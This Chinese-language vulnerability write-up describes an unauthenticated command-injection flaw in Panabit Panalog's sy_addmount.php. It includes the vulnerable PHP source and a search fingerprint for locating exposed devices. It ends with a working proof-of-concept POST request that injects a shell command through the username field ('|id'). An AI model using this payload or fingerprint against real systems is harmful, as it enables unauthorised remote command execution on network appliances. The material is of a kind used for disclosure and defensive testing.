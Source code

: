 # Panabit Panalog sy_addmount.php 远程命令执行漏洞

## 漏洞描述

Panabit Panalog sy_addmount.php过滤不足，导致远程命令执行漏洞

## 漏洞影响

<a-checkbox checked>Panabit Panalog</a-checkbox></br>

## 网络测绘

<a-checkbox checked>body="Maintain/cloud_index.php"</a-checkbox></br>

## 漏洞复现

登录页面

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1628866447890-ec66a2c3-2dab-4500-a9a8-a68823931f3c.png)

存在漏洞的代码为 **account/sy_addmount.php**

```bash
<?php

include(dirname(__FILE__)."/../common.php");

$username = isset($_REQUEST["username"]) ? $_REQUEST["username"] : "";
if (empty($username)) {
	echo '{"success":"no", "out":"NO_USER"}';
	exit;
}

$username = addslashes($username);

$rows = array();

$cmd = PANALOGEYE." behavior add account=$username";
exec($cmd, $out, $ret);
echo $out[0];
exit;
```

其中没有对身份进行鉴权，且 username 可控，构造POC

```bash
POST /account/sy_addmount.php

username=|id
```

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1678237279001-8e9ce97e-d0d5-44c0-b2b1-e1e9550c6e3a.png)